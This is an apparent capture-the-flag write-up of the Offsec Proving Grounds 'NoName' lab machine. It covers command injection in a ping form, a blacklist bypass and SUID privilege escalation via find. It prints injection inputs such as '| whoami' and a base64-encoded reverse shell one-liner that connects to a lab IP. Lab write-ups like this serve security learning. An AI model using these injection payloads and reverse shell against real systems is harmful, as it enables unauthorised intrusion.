










+++
title = 'Offsec Proving Grounds NoName write-up'
date = 2024-06-14T07:07:07+01:00
+++

Starting with basic enumeration

Only port 80 is open so let’s see what’s there

It seems like some remote code execution. Lets test it by putting 'test' value. We get a 'Fake ping executed' message so the assumption is that the command ping < value > gets executed on the backend. Trying to execute another command by inputting '; whoami' , '| whoami' or '&& whoami' doesn’t return anything though. Let’s enumerate further

superadmin.php seems interesting

Here we have the script that actually performs ping command and we have code execution. After entering '| whoami' we get 'www-data' returned

However when trying to input one line reverse shells nothing happened. This plus the fact that only '|' worked and for example ';' didn’t, made me believe there is a blacklist. By entering '| cat superadmin.php' and viewing page source we can see the code of the script

Now we know why we can’t inject a plain reverse shell code. Let’s encode it then

Now we need to make the target machine decode and execute the code. As ‘bash’ wasn’t in the blacklist, the command below got us a reverse shell

> bash -c "$(echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xODEvNDQ0NCAwPiYx|base64 -d)"

**Privilege Escalation**

sudo -l didn’t return anything interesting, let’s try ‘find / -perm -u=s -type f 2>/dev/null’ to see what programs have SUID bit set

By going to [https://gtfobins.github.io/gtfobins/find/#suid](https://gtfobins.github.io/gtfobins/find/#suid) we find (see what I did there) an easy way to get root

